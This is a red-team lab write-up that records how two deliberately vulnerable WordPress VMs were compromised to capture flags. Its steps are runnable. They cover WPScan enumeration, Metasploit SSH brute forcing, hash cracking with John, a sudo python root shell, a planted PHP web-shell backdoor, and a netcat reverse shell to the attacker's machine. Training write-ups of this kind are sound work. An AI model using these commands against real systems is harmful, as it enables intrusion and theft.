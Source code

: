 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

`$ nmap -sV -O 192.168.1.110`

![Initial Nmap Scan](Images/InitialNmapScan.png "Nmap Scan")

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/TCP: OpenSSH 6.7p1
  - Port 80/TCP: Apache web server 2.4.10
  - Port 111/TCP: rpcbind 2-4
  - Port 139/TCP: Samba smbd 3-4
  - Port 445/TCP: Samba smbd 3-4

The following vulnerabilities were identified:
- Target 1
  - Wordpress server is vulnerable to user enumeration
  - Wordpress and ssh server have weak passwords
  - MySQL password is stored in plain text
  - Wordpress hashes are stored unsalted
  - Steven user account has sudo permissions for Python

`$ nmap -sV -O 192.168.1.115`

![Initial Nmap Scan](Images/Target2Nmap.png "Nmap Scan")

  This scan identifies the services below as potential points of entry:
- Target 2
  - Port 22/TCP: OpenSSH 6.7p1
  - Port 80/TCP: Apache web server 2.4.10
  - Port 111/TCP: rpcbind 2-4
  - Port 139/TCP: Samba smbd 3-4
  - Port 445/TCP: Samba smbd 3-4

The following vulnerabilities were identified:
- Target 2
  - Wordpress server is vulnerable to directory enumeration
  - Wordpress server is vulnerable to xss

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1`: flag1{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - Start with a user enumeration of the Wordpress website using Wpscan
        - `wpscan --url http://192.168.1.110/wordpress --enumerate u`
        - ![WPScan](Images/Wpscan.png "WPScan")
      - Using the ssh module in Metasploit we will break into Michael's account
        - `msfconsole`
        - `search ssh`
        - `use auxiliary/scanner/ssh/ssh_login`
        - `show options`
        - `set username michael`
        - `set user_as_pass true`
        - `set pass_file /usr/share/wordlists/rockyou.txt`
        - `set rhosts 192.168.1.110`
        - `set rport 22`
        - `set stop_on_success true`
        - ![Metasploit](Images/Metasploit.png "Metasploit SSH Cracker") 
        - Michael's password is michael
      - Now that we have access to Michael's account we ssh in and search the website filed for the first flag
        - `ssh michael@192.168.1.110`
        - `cd /var/www/html`
        - `grep -nr 'flag1'`
        - ![flag1](Images/flag1.png "First flag") 
  - `flag2`: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - We have the ssh login for Michael from the first flag so we login with that again and run a find command to locate any files named flag
        - `ssh michael@192.168.1.110`
        - `find / -iname '*flag*' -type f -print 2>/dev/null`
        - ![flag2 location](Images/flag2Location.png "Second flag location") 
        - We now know it is stored in /var/www/flag2.txt
        - `cat /var/www/flag2.txt`
        - ![flag2](Images/flag2.png "Second flag") 
  - `flag3`: flag3{afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
      - We are going to locate the password to the MySQL server and than search the database for the next flag
        - `ssh michael@192.168.1.110`
        - `cd /var/www/html/wordpress`
        - `cat wp-config.php`
        - ![MySQL Login Info](Images/MySQL_Login.png "MySQL Login Info")
        - We now know that the MySQL username is `root` with `R@v3nSecurity` as the password so now we will login to the database and search it for the flag
        - `mysql -u root -pR@v3nSecurity`
        - `use wordpress;`
        - `show tables;`
        - ![MySQL Tables](Images/MySQL_Tables.png "MySQL Tables")
        - `describe wp_posts;`
        - ![MySQL wp_posts](Images/MySQL_wp_posts.png "MySQL wp_posts")
        - `select post_content from wp_posts where post_content like '%flag%';`
        - ![Flag 3 and 4](Images/flag3and4.png "Flag 3 and 4")
        - This gives us the third and fourth flag but we will continue to escalate privileges to root regardless to demonstrate how to do it

  - `flag4`: flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - We will be finding the password hash for the steven user account and cracking it than using the steven user permissions to create a root shell and find the last flag
      - `ssh michael@192.168.1.110`
      - `mysql -u root -pR@v3nSecurity`
      - `select * from wp_users;`
      - ![MySQL wp_users](Images/MySQL_wp_users.png "MySQL wp_users")
      - Now we take the hashes that we found in the wp_users table and we put them into a text file to be cracked using John the Ripper
      - `john MySQL_Hashes.txt --wordlist="/usr/share/wordlists/rockyou.txt"`
      - `john --show MySQL_Hashes.txt`
      - ![Steven's Password](Images/StevensPassword.png "Steven's Password")
      - Now we login to the ssh account using Steven's account
      - `ssh steven@192.168.1.110`
      - We have to check the permissions of Steven's account
      - `sudo -l`
      - ![Steven's Permissions](Images/StevenPerms.png "Steven's Permissions")
      - We now know that Steven can use sudo permissions for python so now we can exploit this by spawning a root bash shell
      - `sudo python -c 'import pty; pty.spawn("/bin/bash")'`
      - Now we run another seach for a flag file now that we have root permissions
      - `find / -iname '*flag*' -type f`
      - ![Flag 4 Location](Images/flag4Location.png "Flag 4 Location")
      - `cat /root/flag4.txt`
      - ![Flag 4](Images/flag4.png "Flag 4")

- Target 2
    - `flag1`: flag1{a2c1f66d2b8051bd3a5874b5b6e43e21}
    - **Exploit Used**
      - We will use gobuster to enumerate the website
        - `gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://192.168.1.115/`
        - ![Target 2 Gobuster Scan](Images/Target2Gobuster.png "Target 2 Gobuster Scan")
        - After further inspecting the option we choose to check out the /vendor directory
        - ![Target 2 Vendor Directory](Images/Target2Vendor.png "Target 2 Vendor Directory")
        - Visiting the Path file shows the first flag
        - ![Target 2 Flag 1](Images/Target2Flag1.png "Target 2 Flag 1")
    - `flag2`: flag2{6a8ed560f0b5358ecf844108048eb337}
    - **Exploit Used**
      - We will exploit the insecure webserver and upload a backdoor to give us a bash shell on the target machine
        - We take this [exploit.sh](exploit.sh) and run it to place a backdoor onto the target webserver
        - To test that the exploit worked we visit `view-source:http://192.168.1.115/backdoor.php?cmd=whoami`
        - ![Target 2 Exploit Test](Images/Target2ExploitTest.png "Target 2 Exploit Test")
      - Next step is starting a netcat listener on the kali machine
        - `nc -lnvp 4444`
      - Than we use the backdoor file to connect the target computer to our kali machine by visiting this url
        - `http://192.168.1.115/backdoor.php?cmd=nc%20192.168.1.90%204444%20-e%20/bin/bash`
      - Now that we have a shell spawned on the target machine we will run a find command for the second flag
        - `find / -iname '*flag*' -type -f`
        - ![Target 2 Flag 2 and 3](Images/Target2Flag2.png "Target 2 Flag 2 and 3")
        - This gives us the second flag and the location of the third flag
    - `flag3`: flag3{a0f568aa9de277887f37730d71520d9b}
    - **Exploit Used**
      - From the find command used to locate the second command we know the location of the third flag as well
        - ![Target 2 Flag 2 and 3](Images/Target2Flag2.png "Target 2 Flag 2 and 3")
        - We can now visit `http://192.168.1.115/wordpress/wp-content/uploads/2018/11/flag3.png` to see the third flag
        - ![Target 2 Flag 3](Images/Target2Flag3.png "Target 2 Flag 3")